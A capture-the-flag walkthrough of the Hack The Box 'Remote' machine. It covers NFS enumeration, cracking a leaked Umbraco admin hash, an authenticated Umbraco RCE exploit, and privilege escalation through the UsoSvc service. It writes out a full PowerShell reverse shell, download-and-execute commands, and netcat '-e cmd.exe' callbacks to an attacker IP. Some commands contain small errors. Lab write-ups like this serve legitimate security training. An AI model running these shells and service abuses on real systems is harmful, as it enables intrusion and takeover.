


# HTB REMOTE

## Initial Recon

I started the initial recon using nmap :

` sudo nmap -sS -sV -sC 10.10.10.180 > rec_ini`

The following is the result I get: 


So, it has a web page which looks like an online shopping site.


Also in the people section we find the names of some people which may letter help us gaining access.


It seems that the FTP server has anonymous login enabled, so we can try doing anonymous login in the FTP server..while I let a full port scan run in the background

`sudo nmap -p- -T5 10.10.10.180 > all_ports`

So I do the anonymous login in the FTP with the username and password as *anonymous:anonymous*


Couldn't find any listable files in the FTP :


Tried doing null authentication using rpcclient but didn't work

`rpcclient -U '' 10.10.10.180`

## Finding out the nfs mount

One thing we missed in our recon was the port 2049. It is the port where nsf file system is mounted. So we can run some enumeration scripts to get to know the folder on which it is mounted.

This can be done in various ways:  

1) using nmap Scripts:

```
nfs-ls	List nfs export
nfs-showmount	Like showmount -e
nfs-statfs	Disc statistics and info from NFS share
```

2)	Using metasploit module :

```
scanner/nfs/nfsmount Scan nfs mounts and list permissions
```

3) Mounting:

```
showmount -e <IP>
```

4) Mounting it : 

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

*It is important to use version 2 because it doesn't have any authentication*

Example :  

```
mkdir /mnt/new_back

mount -t nfs [-o vers=2] 10.10.10.180:/backup /mnt/new_backup -o nolock
```

5) Confit files:

```
/etc/exports
/etc/lib/nfs/etab
```
So I used the nmap script nfs-showmount


This shows that there is a mount drive /site_backup. I will try to mount this drive.

Before that install nfs-common

```
sudo apt install nfs-common
```

Then mount

````
sudo mount -t nfs 10.10.10.180:/site_backups /mnt
```

The following is the listing of the shared folder



I found the Umbraco.sdf in the App_Data folder.



So I copy it to my working durectory

I couldn't find any proper sdf to other format converter online. So to check the file I used strings and passed it to less

```
strings Umbraco.sdf | less
```

After piping the strings into less, I get the following potential usernames along with the credentials : 

```
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8
```

Umbraco is an open source CMS created using .NET : 

There is an Umbraco exploit which can be found in the following github :

```
https://github.com/noraj/Umbraco-RCE
```

This is an authenticated code execution exploit. So we need to decrypt the SHA-1 hash of the admin user :

```
hashcat --example-hashes | grep SHA1
hashcat --help | grep SHA1
```

Note the mode for SHA1 hash is 100. We will copy and paste the hash and try to crack the password.

```
hashcat --force -m 100 crack.hash /usr/share/wordlists/rockyou.txt
```


From hashcat we get the output as 
```
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
```

Required creds for RCE are : 

```
admin@htb.local : baconandcheese
```

Clone the GitHub repository :  

```
git clone https://github.com/noraj/Umbraco-RCE.git
```

Install the requirements using requirements.txt

```
pip3 install requirements.txt
```

The following is the help for the exploit : 

```
python3 exploit.py --help
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

We will try to execute a powershell command

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a dir
```

We get the following result


From the following GitHub I found a reverse shell for powershell : 

```
https://gist.github.com/ohpe/bdd9d4385f8e6df26c02448f1bcc7a25
```

We can use the command : 

```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('<LISTENERIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Another reverse powershell I found :

```
https://raw.githubusercontent.com/trustedsec/social-engineer-toolkit/master/src/powershell/reverse.powershell
```

We can create the file and make the server download our powerhell scirpt and make it execute both using the exploit.

First start the python http.server to upload the file

```
sudo python3 -m http.server 80
```

Then use the following command to download and directly execute the powershell script on the server. But make sure that a listener is running on our local machine

```
nc -nlvp 1331
```

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.47/reverse.powershell')"
```


Upon checking whoami I get `iis apppool\defaultapppool`


Trying to go the C:\ drive, I found out that in the users folder, the Administrator is not accessible however the Public folder is accessible

upong using dir we find that the user.txt is present here : 


## On to ROOT

Use the following commands to download and directly execute winPEAS : 

```
$url = "http://10.10.15.47/winPEAS.exe"
$outpath = "$PSScriptRoot/winPEAS.exe"
Invoke-WebRequest -Uri $url -OutFile $outpath
```
Using $PSScriptRoot allows me to download the winPEAS script directly next to directly where the powershell is running

```
(New-Object System.Net.WebClient).DownloadFile("http://10.10.15.47/winPEAS.exe", "winPEAS.exe")
```

```
Invoke-WebRequest -Uri http://10.10.15.47/winPEAS.exe -OutFile C:\Users\Public\Downloads\winPEAS.exe
```


As soon as you get the shell type powershell in order to get the actual powershell prompt

```
powershell -ep bypass
```

After downloading and running winPEAS.exe I found out there is TeamView running and also a *Modifiable* service called UsoSvc. So, can look into its priviledge escalation.

Take refernce from the machine Querier. It also has the same type of binary whose path can be changed and we can execute whatever we want in its place:

For this we will use PowerUp.ps1 script from the PowerTools repository

```
Invoke-WebRequest -Uri http://10.10.15.47/PowerUp.ps1 -OutFile C:\Users\Public\Downloads\PowerUp.ps1
```


```
Invoke-WebRequest -Uri http://10.10.15.47/nc64.exe -OutFile C:\Users\Public\Downloads\nc64.exe
```


```
sc.exe config UsoSvc binpath= "C:\Users\Public\Downloads\nc64.exe 10.10.15.47 6868 -e cmd.exe"
```

If the manual method doesn't work, then use the PowerUp.ps1 script in order to automate the process.


After downloading PowerUp.ps1 script

```
powershell -ep bypass
. .\PowerUp.ps1
```

```
Invoke-AllChecks
```


From this also we can see that the UsoSvc is vulnerable

I will use Ivoke-ServiceAbuse in order to run the netcat comand in place of the UsoSvc binary


```
Invoke-ServiceAbuse "UsoSvc" -Command "C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.10.15.47 6868"
```

```
nc64.exe -e cmd.exe 10.10.15.47 6868
```
```
sc.exe config UsoSvc binPath="cmd.exe /c C:\Users\Public\Downloads\nc64.exe 10.10.15.47 6868 -e cmd.exe &; C:\Windows\system32\svchost.exe -k netsvcs -p"

SC CONFIG YourServiceName binPath= "C:\SomeDirectory\YourFile.EXE"
```

So you need to first stop the service (user sc.exe)

```
sc.exe stop UsoSvc

sc.exe sc.exe config UsoSvc binPath="cmd.exe /c C:\Users\Public\Downloads\nc64.exe 10.10.15.47 6868 -e cmd.exe &; C:\Windows\system32\svchost.exe -k netsvcs -p"

sc.exe start UsoSvc
```

Keep the netcat running on your local machine on the required port

```
nc -nlvp 6868
```


This shows that now you're root. you can Go to the Administrator directory and get the root flag.